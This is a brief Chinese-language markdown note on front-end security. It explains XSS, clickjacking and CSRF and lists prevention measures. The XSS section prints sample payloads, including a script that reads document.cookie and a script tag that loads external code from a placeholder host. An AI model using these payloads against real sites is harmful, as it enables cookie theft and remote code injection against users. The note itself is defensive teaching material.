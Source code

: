 ```yaml
---
slug: /secure 
title: 前端涉及到的安全
tags: ["xss", "点击劫持","pnpm"]
---
```


## XSS

> 跨站脚本注入攻击，通过向web插入Script脚本代码，当用户浏览界面时候，嵌入的脚本就会执行攻击用户。目前主要分为存储型、反射型、DOM型
```
<svg onload="alert(1)">
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```
### 预防
* 输入验证过滤
* httpOnly
* 进行特殊转义
* 设置http头部 XSS-Protection


## 点击劫持
> 利用透明的覆盖层或者iframe来欺骗用户在不知情的情况下点击类似无害的按钮


### 预防
* HTTP X-Frame-Options 响应头设置DENY
* 代码里边判断是否界面在iframe中

## CSRF
> 伪造请求来利用互用已验证的状态喜爱发出非预期请求，可能进行支付、密码修改、删除数据

### 预防
* 提交使用SCRF Token
* 验证Referer头部
* 避免自动登录记住密码